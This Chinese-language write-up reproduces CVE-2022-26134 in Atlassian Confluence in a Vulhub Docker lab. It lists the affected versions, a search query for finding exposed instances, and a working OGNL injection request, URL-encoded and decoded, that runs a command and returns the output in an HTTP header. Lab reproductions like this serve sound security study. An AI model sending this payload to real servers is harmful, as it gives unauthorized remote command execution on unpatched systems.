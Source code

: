 # Atlassian Confluence OGNL表达式注入命令执行漏洞 CVE-2022-26134

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。2022年6月2日Atlassian官方发布了一则安全更新，通告了一个严重且已在野利用的代码执行漏洞，攻击者利用这个漏洞即可无需任何条件在Confluence中执行任意命令。

参考链接：

- https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html
- https://attackerkb.com/topics/BH1D56ZEhs/cve-2022-26134/rapid7-analysis

## 漏洞影响

```
Atlassian Confluence 7.4.17
Atlassian Confluence 7.13.7
Atlassian Confluence 7.14.3
Atlassian Confluence 7.15.2
Atlassian Confluence 7.16.4
Atlassian Confluence 7.17.4
Atlassian Confluence 7.18.1
```

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

## 环境搭建

Vulhub执行如下命令启动一个Confluence Server 7.13.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

## 漏洞复现

该漏洞利用方法十分简单，直接发送如下请求即可执行任意命令，并在HTTP返回头中获取执行结果：

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

其中使用到的OGNL表达式为：

```
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
```

![image-20220606145829007](images/202206061458141.png)